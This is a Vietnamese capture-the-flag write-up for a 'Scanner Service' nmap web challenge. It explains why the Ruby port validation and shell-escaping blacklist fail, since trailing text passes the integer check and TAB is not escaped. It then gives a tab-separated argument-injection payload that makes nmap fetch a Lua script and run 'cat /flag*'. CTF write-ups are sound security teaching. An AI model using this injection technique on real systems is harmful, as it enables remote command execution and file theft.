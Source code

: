 # **SENKAI CTF**

## **Scanner Service**

- Ở đây chúng ta có trang web có chức nmap địa chỉ ip với ip và port mình cung cấp 

![](./img_Senkai/Screenshot%202023-08-29%20153205.png)

- Chúng ta sẽ đi đọc source trang web để hiểu rõ hơn cách hoạt động cũng như phương thức chúng ta có thể tấn công

```Ruby
def valid_port?(input)
  !input.nil? and (1..65535).cover?(input.to_i)
end

def valid_ip?(input)
  pattern = /\A((25[0-5]|2[0-4]\d|[01]?\d{1,2})\.){3}(25[0-5]|2[0-4]\d|[01]?\d{1,2})\z/
  !input.nil? and !!(input =~ pattern)
end

# chatgpt code :-)
def escape_shell_input(input_string)
  escaped_string = ''
  input_string.each_char do |c|
    case c
    when ' '
      escaped_string << '\\ '
    when '$'
      escaped_string << '\\$'
    when '`'
      escaped_string << '\\`'
    when '"'
      escaped_string << '\\"'
    when '\\'
      escaped_string << '\\\\'
    when '|'
      escaped_string << '\\|'
    when '&'
      escaped_string << '\\&'
    when ';'
      escaped_string << '\\;'
    when '<'
      escaped_string << '\\<'
    when '>'
      escaped_string << '\\>'
    when '('
      escaped_string << '\\('
    when ')'
      escaped_string << '\\)'
    when "'"
      escaped_string << '\\\''
    when "\n"
      escaped_string << '\\n'
    when "*"
      escaped_string << '\\*'
    else
      escaped_string << c
    end
  end

  escaped_string
end

```

- Dường như ip và port đã được validate. Nhưng ta chú ý đến đoạn validate port như sau: 

- Trước hết, như chúng tôi đã đề cập trước đó, cổng đang được chuyển đổi thành số và chỉ sau đó mới được xác thực. Tuy nhiên, chúng ta thực sự có thể nhập bất kỳ thứ gì dưới dạng cổng, miễn là nó bắt đầu bằng một số, vì Ruby bỏ qua mọi thứ xuất hiện sau các chữ số đầu tiên.
![](./img_Senkai/Screenshot%202023-08-29%20154514.png)

- Thứ hai, danh sách đen chịu trách nhiệm thoát khỏi các ký tự dành riêng cho shell đang thiếu một ký tự quan trọng, đó là TAB. Các đối số không nhất thiết phải cách nhau bằng dấu cách, TAB cũng hoạt động.

- Thì tôi thực hiện khai thác trên port như sau:
```
80%09--script%09http-fetch%09--script-args%09http-fetch.destination=/tmp,http-fetch.url=rce-script

```

![](./img_Senkai/Screenshot%202023-08-29%20154631.png)


- Với file `rce-script` có nội dung `os.execute("cat /flag*")`

![](./img_Senkai/Screenshot%202023-08-29%20154805.png)